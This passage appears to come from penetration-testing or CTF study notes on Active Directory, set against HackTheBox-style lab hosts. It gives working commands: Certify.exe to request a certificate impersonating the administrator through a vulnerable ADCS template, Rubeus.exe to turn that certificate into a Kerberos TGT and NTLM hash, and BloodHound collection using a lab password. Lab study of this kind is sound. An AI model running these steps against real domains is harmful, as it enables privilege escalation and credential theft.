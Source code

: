 #### Certify.exe
---
With <a href="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Certify.exer" target="_blank">Certify.exe</a>, we can test if the victim machine’s ADCS setup is susceptible to unauthorized certificate enrollment and assess the associated risks

````powershell
.\Certify.exe find /vulnerable /currentuser # Confirm if its vulnerable
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator # Make a fake certificate
````
#### Rubeus.exe
---
<a href="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Rubeus.exe" target="_blank">Rubeus.exe</a> a powerful tool for interacting with Kerberos tickets in Windows environments. In this context, we will use it to request a **Ticket Granting Ticket (TGT)** using the certificate we obtained and in this case we also get the hash NTLM.

````powershell
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show /nowrap
````

##  ABUSE OF PRIVILEGES
---
### Enumerating privileges
---
### Common commnds
---
````powershell
whoami -all
whoami -groups
````
#### Bloodhound for enumerating privileges
---
BloodHound is a tool for Active Directory auditing that helps map trust relationships, permissions, and privilege escalation paths within a domain. It visually identifies attack vectors by showing how an attacker could escalate privileges or move laterally within a network.

If we cant acces with WinRM:

````bash
bloodhound-python -c All -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -ns 10.10.11.45
````

If we can acces with WinRM: SharpHound >

#### SharpHound for enumerating privileges
---
SharpHound is the data collection tool used by BloodHound. It scans the Active Directory environment to gather information about users, groups, permissions, and trust relationships. The data collected is then analyzed by BloodHound.
